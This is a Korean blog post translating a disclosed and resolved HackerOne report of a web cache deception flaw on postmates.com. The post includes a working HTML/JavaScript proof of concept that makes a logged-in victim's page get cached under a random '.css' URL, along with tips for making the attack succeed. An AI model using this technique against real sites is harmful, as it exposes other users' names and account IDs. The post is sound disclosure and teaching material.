 ```yaml
---
layout: post
title: 사용자 정보를 유출시킬 수 있는 웹 캐시 포이즈닝 (postmates.com)
categories: PoC
tags: [Bugbounty, CachePoisoning, Translation, Hackerone]
---
```

Web Cache Poisoning에 대해 설명되어있는 유튜브 영상 :
{% include youtube_embed.html id="1d1tUefYn4U" %}
- - -
출처 : [hackerone hacktivity, 작성자 : David Albert (davidalbert)] https://hackerone.com/reports/492841

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 2월 26일 오후 9시 37분에 공개되었습니다. Postmates에 리포팅 되었으며, 해당 페이지는 Postmates의 자산입니다. 취약점의 종류는 Violation of Secure Design Principles이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 해당 도메인에서 8.2/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
안녕하세요,

당신의 웹 서버는 웹 캐시 포이즈닝 공격에 취약합니다. 이 말은 즉, 공격자가 다른 사용자의 정보를 탈취할 수 있다는 것입니다.

예를 들어, 당신이 이 페이지에 방문하여 로그인을 한다고 가정하면 : https://postmates.com/SomeRandomText.css

서버는 캐시에 그 정보를 저장할 것입니다. 하지만 로그인 된 사용자의 정보가 저장이 될 것입니다 🙂 로그인하지 않은 사용자 여기 해당 사이트에 방문이 가능하며 그곳에 저장되어있는 정보를 볼 수 있습니다. 이 경우에는 다음 url이 해당됩니다 : https://postmates.com/SomeRandomText.css

저는 간단한 javascript/html 코드를 작성했고, 이것은 해당 공격을 완전히 자동화해서 실행시킬 수 있는 코드로, 당신은 해당 사이트에 방문해 3초만 기다리시면 됩니다.

여기 간단한 개념증명(PoC) 코드가 있습니다 :
{% highlight html %}
<html>
<head>
</head>
<body>
<script>
    var cachedUrl = 'https://postmates.com/' + generateId() + '.css';
    const popup = window.open(cachedUrl);

    function generateId() {
        var content = '';
        const alphaWithNumber = 'QWERTZUIOPASDFGHJUKLYXCVBNM1234567890';

        for (var i = 0; i < 10; i++) {
            content += alphaWithNumber.charAt(Math.floor(Math.random() * alphaWithNumber.length))
        }
        return content;
    }

    var checker = setInterval(function() {
        if (popup.closed) {
            clearInterval(checker);
        }
    }, 200);
    var closer = setInterval(function() {
        popup.close();
        document.body.innerHTML = 'Victims content is now cached <a href="' + cachedUrl + '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' + cachedUrl + '</b>'; 
        clearInterval(closer);
    }, 3000);

</script>
</body>
</html>
{% endhighlight %}
<div id="container">
	<div id="box">
		<img src="{{site.baseurl}}/images/1_Logged_in_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/2_Logged_in_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/3_Not_Logged_in_(Private_Mode).png">
	</div>
</div>
<div id="container">
	<div id="box">
		<img src="{{site.baseurl}}/images/4_Not_Logged_in_(Private_Mode).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/5_Logged_in_Victim_visits_attackers_website_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode).png">
	</div>
</div>
![7]({{site.baseurl}}/images/7_Attacker_can_get_important_informations_(Private_Mode).png)]

이론상으로, 공격자는 이 정보를 그 자신만의 서버에 저장할 수 있지만, 이 예시에서는 URL이 단지 보여지기만 했습니다. 웹사이트 보안을 위해 꾸준히 지켜봐주셨으면 합니다 그리고 제 리포트가 도움이 되었길 희망합니다.

해당 공격에 대한 몇가지 정보 : https://www.blackhat.com/docs/us-17/wednesday/us-17-Gil-Web-Cache-Deception-Attack.pdf

덧1) 개념증명(PoC) 프로젝트로써, 팝업을 허용하는 것은 중요합니다. 깜빡했네요 여기 첨부 파일이 있습니다 :  
<a href="{{site.baseurl}}/attach/postmatesPoC.html" download>postmatesPoC 다운로드</a>

덧2) 지난번에 전혀 방문하지 않았던 URL이어야 합니다. 그러면 성공할 것이고 서버는 정보를 저장하게 될 것 입니다. URL의 끝은 반드시 ".css"로 해주세요.
- - -
# 영향
웹 캐시 포이즈닝 공격은 로그인 보안에 중요한 이름과 멤버 아이디와 같은 사용자 정보들을 훔칠 수 있습니다(예시로요).